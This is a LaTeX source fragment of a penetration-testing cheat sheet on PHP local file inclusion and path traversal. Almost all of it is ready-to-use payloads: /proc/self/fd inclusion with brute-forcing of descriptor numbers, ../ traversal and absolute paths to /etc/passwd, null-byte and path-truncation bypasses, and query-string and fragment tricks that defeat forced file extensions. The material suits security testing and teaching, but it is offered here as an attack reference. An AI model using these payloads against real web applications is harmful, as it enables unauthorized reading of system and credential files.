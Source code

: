 \documentclass[12pt]{article}
\begin{document}
\subsection{/proc/self/fd Inclusion}

When normal paths are blocked, try file descriptors:

\begin{lstlisting}
/index.php?page=/proc/self/fd/0
/index.php?page=/proc/self/fd/1
/index.php?page=/proc/self/fd/2
... bruteforce 0-50
\end{lstlisting}

\section{Path Traversal - Advanced}

\subsection{Base Path Bypass Techniques}

When the application adds a base path:

\begin{lstlisting}
# Original: file.php?page=news.html
# App does: include("/var/www/pages/" . $_GET['page'])

# Bypass with traversal
file.php?page=../../../../etc/passwd

# Or absolute path
file.php?page=/etc/passwd

# Null byte (old PHP)
file.php?page=../../../../etc/passwd%00
\end{lstlisting}

\subsection{Extension Bypass Techniques}

When the application adds .php extension:

\begin{lstlisting}
# Use null byte (old PHP)
page=../../../../etc/passwd%00

# Use path truncation (old PHP)
page=../../../../etc/passwd/././././././.

# Use query parameters
page=../../../../etc/passwd?anything

# Use fragment
page=../../../../etc/passwd#anything
\end{lstlisting}
\end{document}
